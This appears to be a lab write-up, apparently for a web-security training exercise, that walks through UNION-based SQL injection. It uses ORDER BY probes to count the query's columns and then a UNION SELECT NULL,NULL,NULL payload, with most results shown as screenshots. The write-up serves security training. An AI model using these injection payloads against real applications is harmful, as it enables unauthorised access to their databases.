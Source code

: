 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234031666-c94aaafc-91c3-4979-91c9-4e55bd75ab9a.png)


## Solution :

![image](https://user-images.githubusercontent.com/67383098/234045690-4050d5b2-cef2-48ef-bd94-1c6b0866ac7f.png)

Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

We craft the request by adding **UNION** along with **ORDER BY** clause to *find the number of columns that is being used by the query*.

**ORDER BY 1**

```SQL
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 1 --
```

![image](https://user-images.githubusercontent.com/67383098/234046970-f6f0da55-cb48-478e-9088-df25a925aad3.png)

**ORDER BY 2**

![image](https://user-images.githubusercontent.com/67383098/234047295-1c5ba413-82e5-4e31-b102-f9c20857c1ef.png)

**ORDER BY 3**

![image](https://user-images.githubusercontent.com/67383098/234047153-85014d4b-77a8-47be-aec0-89dcdcf3002f.png)

**ORDER BY 4**

![image](https://user-images.githubusercontent.com/67383098/234047479-299a04ae-d465-4aa9-afe7-01982add7479.png)

This throws an error. It means that there are 3 columns that is being retreived in the query by the web application.

Now as per our given question, we use **UNION SELECT NULL** payload to return an additional column that contains null values.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,NULL,NULL --
```

![image](https://user-images.githubusercontent.com/67383098/234049783-5e934a05-413b-4041-b355-a22f15be9cb1.png)









































